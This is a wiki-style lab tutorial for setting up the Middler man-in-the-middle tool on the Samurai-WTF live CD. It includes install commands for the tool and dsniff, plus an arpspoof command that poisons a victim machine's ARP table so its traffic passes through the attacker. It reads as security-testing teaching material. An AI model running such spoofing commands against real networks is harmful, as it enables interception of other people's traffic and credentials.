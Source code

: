 = Getting Set Up =
 # Download the latest copy of Samurai-WTF at samurai.inguardians.com
 # Boot Samurai-WTF from the live CD or from a virtual environment like VMware.
 # Install Middler's dependencies by opening a terminal and running: <br> {{{sudo aptitude install libdumbnet-dev python-libpcap python-beautifulsoup python-scapy}}}
 # Install Middler by running: <br> {{{svn checkout http://middler.googlecode.com/svn/trunk/ middler-read-only}}}
 # Install dsniff so we can spoof ARP tables on victim machines (This functionality will be included in Middler within the next few weeks): <br> {{{sudo aptitude install dsniff}}}
 # Since middler needs to listen on port 80, shut down apache: <br> {{{sudo /etc/init.d/apache2 stop}}}

= Playing with Middler =
 # Move into the Middler's directory: <br> {{{cd middler-read-only}}}
 # Start up Middler with: <br> {{{sudo ./middler.py}}}
 # Choose a victim computer (or start a second VM to pick on)
 # On the machine running Middler, start an arpspoof attack against your victim: <br> {{{arpspoof -i <interface> -t <victim_ip> <gateway_ip>}}}
 # On the victim machine, verify the gateway's MAC address is being spoofed: <br> {{{arp -n}}}
 # On the victim machine, open a browser and surf to www.frog.com